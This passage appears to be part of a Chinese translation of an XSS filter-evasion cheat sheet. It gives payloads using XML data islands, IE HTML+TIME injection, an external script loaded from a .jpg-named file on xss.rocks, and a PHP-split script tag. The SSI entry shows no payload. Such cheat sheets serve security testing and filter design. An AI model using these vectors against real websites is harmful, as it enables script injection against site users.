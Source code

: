 <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>





### 2.75.    使用XML数据岛生成含内嵌JavaScript的本地XML文件

这和上面是一样的但是将来源替换为了包含跨站脚本攻击向量的本地XML文件（必须在同一服务器上）：


<XML SRC="xsstest.xml" ID=I></XML>

<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>





### 2.76.    XML中使用HTML+TIME

这是Grey Magic攻击Hotmail和Yahoo的方法。这只在IE和IE渲染模式下的Netscape8.1有效并且记得需要在HTML域的BODY标签中间才有效：


<HTML><BODY>

<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">

<?import namespace="t" implementation="#default#time2">

<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">

</BODY></HTML>





### 2.77.    使用一些字符绕过".js"过滤

你可以将你的JavaScript文件重命名为图像来作为XSS攻击向量：


<SCRIPT SRC="<http://xss.rocks/xss.jpg>"></SCRIPT>




### 2.78.    SSI（服务端脚本包含）

这需要在服务器端允许SSI来使用XSS攻击向量。似乎不用提示这点，因为如果你可以在服务器端执行指令那一定是有更严重的问题存在：







### 2.79.    PHP

需要服务器端安装了PHP来使用XSS攻击向量。同样，如果你可以远程运行任意脚本，那会有更加严重的问题：


<? echo('<SCR)';

echo('IPT>alert("XSS")</SCRIPT>'); ?>


